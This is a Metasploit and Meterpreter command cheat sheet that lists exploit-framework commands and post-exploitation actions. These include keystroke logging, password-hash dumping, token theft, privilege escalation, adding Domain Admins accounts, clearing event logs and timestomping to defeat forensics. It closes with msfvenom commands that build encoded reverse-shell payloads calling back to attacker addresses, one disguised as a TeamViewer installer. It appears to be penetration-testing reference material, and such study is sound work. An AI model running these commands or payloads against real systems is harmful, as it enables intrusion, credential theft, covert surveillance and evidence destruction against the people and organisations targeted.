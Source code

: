1.	Show all exploits within the Framework.: `show exploits`
2.	Show all payloads within the Framework.: `show payloads`
3.	Show all auxiliary modules within the Framework.: `show auxiliary`
4.	Search for exploits or modules within the Framework.: `search <name>`
5.	Load information about a specific exploit or module.: `info`
6.	Load an exploit or module (example: use windows/smb/psexec).: `use <name>`
7.	Load an exploit by using the index number displayed after the search command.: `use <number>`
8.	Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells.: `LHOST`
9.	The remote host or the target. set function Set a specific value (for example, LHOST or RHOST).: `RHOST`
10.	Set a specific value globally (for example, LHOST or RHOST).: `setg <function>`
11.	Show the options available for a module or exploit.: `show options`
12.	Show the platforms supported by the exploit.: `show targets`
13.	Specify a specific target index if you know the OS and service pack.: `set target <number>`
14.	Specify the payload to use.: `set payload <payload>`
15.	Specify the payload index number to use after the show payloads command.: `set payload <number>`
16.	Show advanced options.: `show advanced`
17.	Automatically migrate to a separate process upon exploit completion.: `set autorunscript migrate -f`
18.	Determine whether a target is vulnerable to an attack.: `check`
19.	Execute the module or exploit and attack the target.: `exploit`
20.	Run the exploit under the context of the job. (This will run the exploit in the background.): `exploit -j`
21.	Do not interact with the session after successful exploitation.: `exploit -z`
22.	Specify the payload encoder to use (example: exploit –e shikata_ga_nai).: `exploit -e <encoder>`
23.	Display help for the exploit command.: `exploit -h`
24.	List available sessions (used when handling multiple shells).: `sessions -l`
25.	List all available sessions and show verbose fields, such as which vulnerability was used when exploiting the system.: `sessions -l -v`
26.	Run a specific Meterpreter script on all Meterpreter live sessions.: `sessions -s <script>`
27.	Kill all live sessions.: `sessions -K`
28.	Execute a command on all live Meterpreter sessions.: `sessions -c <cmd>`
29.	Upgrade a normal Win32 shell to a Meterpreter console.: `sessions -u <sessionID>`
30.	Create a database to use with database-driven attacks (example: db_create autopwn).: `db_create <name>`
31.	Create and connect to a database for driven attacks (example: db_connect autopwn).: `db_connect <name>`
32.	Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.): `db_nmap`
33.	Delete the current database.: `db_destroy`
34.	Delete database using advanced options.: `db_destroy <user:password@host:port/database>`
## **Meterpreter**
35.	Open Meterpreter usage help.: `help`
36.	Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory.: `run <scriptname>`
37.	Show the system information on the compromised target.: `sysinfo`
38.	List the files and folders on the target.: `ls`
39.	Load the privilege extension for extended Meterpreter libraries.: `use priv`
40.	Show all running processes and which accounts are associated with each process.: `ps`
41.	Migrate to the specific process ID (PID is the target process ID gained from the ps command).: `migrate <proc. id>`
42.	Load incognito functions. (Used for token stealing and impersonation on a target machine.): `use incognito`
43.	List available tokens on the target by user.: `list_tokens -u`
44.	List available tokens on the target by group.: `list_tokens -g`
45.	Impersonate a token available on the target.: `impersonate_token <DOMAIN_NAMEUSERNAME>`
46.	Steal the tokens available for a given process and impersonate that token.: `steal_token <proc. id>`
47.	Stop impersonating the current token.: `drop_token`
48.	Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.: `getsystem`
49.	Drop into an interactive shell with all available tokens.: `shell`
50.	Execute cmd.exe and interact with it.: `execute -f <cmd.exe> -i`
51.	Execute cmd.exe with all available tokens.: `execute -f <cmd.exe> -i -t`
52.	Execute cmd.exe with all available tokens and make it a hidden process.: `execute -f <cmd.exe> -i -H -t`
53.	Revert back to the original user you used to compromise the target.: `rev2self`
54.	Interact, create, delete, query, set, and much more in the target’s registry.: `reg <command>`
55.	Switch to a different screen based on who is logged in.: `setdesktop <number>`
56.	Take a screenshot of the target’s screen.: `screenshot`
57.	Upload a file to the target.: `upload <filename>`
58.	Download a file from the target.: `download <filename>`
59.	Start sniffing keystrokes on the remote target.: `keyscan_start`
60.	Dump the remote keys captured on the target.: `keyscan_dump`
61.	Stop sniffing keystrokes on the remote target.: `keyscan_stop`
62.	Get as many privileges as possible on the target.: `getprivs`
63.	Take control of the keyboard and/or mouse.: `uictl enable <keyboard/mouse>`
64.	Run your current Meterpreter shell in the background.: `background`
65.	Dump all hashes on the target. use sniffer Load the sniffer module.: `hashdump`
66.	List the available interfaces on the target.: `sniffer_interfaces`
67.	Start sniffing on the remote target.: `sniffer_dump <interfaceID> pcapname`
68.	Start sniffing with a specific range for a packet buffer.: `sniffer_start <interfaceID> packet-buffer`
69.	Grab statistical information from the interface you are sniffing.: `sniffer_stats <interfaceID>`
70.	Stop the sniffer.: `sniffer_stop <interfaceID>`
71.	Add a user on the remote target.: `add_user <username> <password> -h <ip>`
72.	Add a username to the Domain Administrators group on the remote target.: `add_group_user <"Domain Admins"> <username> -h <ip>`
73.	Clear the event log on the target machine.: `clearev`
74.	Change file attributes, such as creation date (antiforensics measure).: `timestomp`
75.	Reboot the target machine.: `reboot`
### **Encoders**
1. Selecting an Encoder `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`
2. Generating Payload - Without Encoding: `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`
3. Generating Payload - With Encoding: `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`
4. Generating Payload - Without Encoding: `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe`
5. Generating Payload - With Encoding: `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe`
### **MSFVenom**
1. Generating Payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`
2. Generating Payload:`msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`

